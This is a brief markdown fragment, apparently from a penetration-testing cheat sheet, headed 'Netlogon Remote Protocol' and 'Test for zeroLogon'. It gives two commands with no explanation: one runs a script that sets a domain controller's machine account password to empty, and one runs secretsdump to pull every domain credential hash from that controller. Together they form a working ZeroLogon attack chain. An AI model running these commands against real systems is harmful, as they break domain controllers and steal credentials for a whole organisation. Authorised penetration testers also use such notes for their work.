 # Netlogon Remote Protocol

#### Test for zeroLogon

```
python3 /opt/set_empty_pw.py dc-name $ip
```

```
secretsdump.py -just-dc $domain/dc-name\$@$ip
```
